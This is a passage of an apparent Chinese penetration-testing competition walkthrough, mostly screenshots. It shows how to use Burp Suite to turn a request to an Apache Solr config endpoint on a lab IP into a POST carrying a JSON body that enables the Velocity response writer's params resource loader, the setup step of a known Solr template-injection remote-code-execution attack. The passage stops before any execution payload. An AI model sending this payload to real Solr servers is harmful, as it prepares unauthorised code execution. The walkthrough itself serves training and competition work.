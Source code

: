 ![image-20221118113402586790-1669009318776532.png](img/典型企业生产环境渗透赛 Local.assets/0dd3c0cc45b71e350958f3e0db78871e.png)

启动抓包工具burpsuite：

![image-20221121094721153151-1669009319955224.png](img/典型企业生产环境渗透赛 Local.assets/11ba477b373015132fc8d5145f2e7f79.png)

![image-20221121094740869121-1669009321172553.png](img/典型企业生产环境渗透赛 Local.assets/0c723f91092b4b9f1faab2bdd0dfa2a2.png)

![image-20221121094808401453-1669009322340596.png](img/典型企业生产环境渗透赛 Local.assets/07d162bd630042e1afd3120e56f7d3af.png)

![image-20221121094819918346-1669009323560870.png](img/典型企业生产环境渗透赛 Local.assets/cc5b75db9b1317cc9ab78b863a79cda4.png)

![image-20221121094830077695-1669009324764666.png](img/典型企业生产环境渗透赛 Local.assets/ed6772e00b858f2570f189142cffae65.png)

![image-20221121094854298548-1669009325945325.png](img/典型企业生产环境渗透赛 Local.assets/904288c002a61c9304fd979e059eec03.png)

![image-20221121094912587320-1669009327160742.png](img/典型企业生产环境渗透赛 Local.assets/6ad21c3d7feb37c4478bef11998430bb.png)

对`http://192.168.10.110:8983/solr/new_core/config` 进行抓包，浏览器中刷新该标签页：

![image-20221121094940594321-1669009328325409.png](img/典型企业生产环境渗透赛 Local.assets/10d6b032fc492ac83afafda74de0d559.png)

将抓到的数据包发送到`Repeater`：

![image-20221121095012072227-1669009329593072.png](img/典型企业生产环境渗透赛 Local.assets/94af05d43eaded59803afdab4f6089b4.png)

进入`Repeater`：

![image-20221121095026407188-1669009330784294.png](img/典型企业生产环境渗透赛 Local.assets/6484cf7316f227599b2385ee6e05ff6d.png)

`params.resource.loader.enabled`默认为false，尝试向该页面发送post请求；

修改请求包方法：

![image-20221121095048433974-1669009332231026.png](img/典型企业生产环境渗透赛 Local.assets/fba0609a980682c1464ab39cb9630499.png)

修改`Content-Type`的值为`application/json`：

![image-20221121095117652355-1669009333620206.png](img/典型企业生产环境渗透赛 Local.assets/ec39c430666f37023f19ad29988baae6.png)

加入请求体后点击`Send`：

```
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```
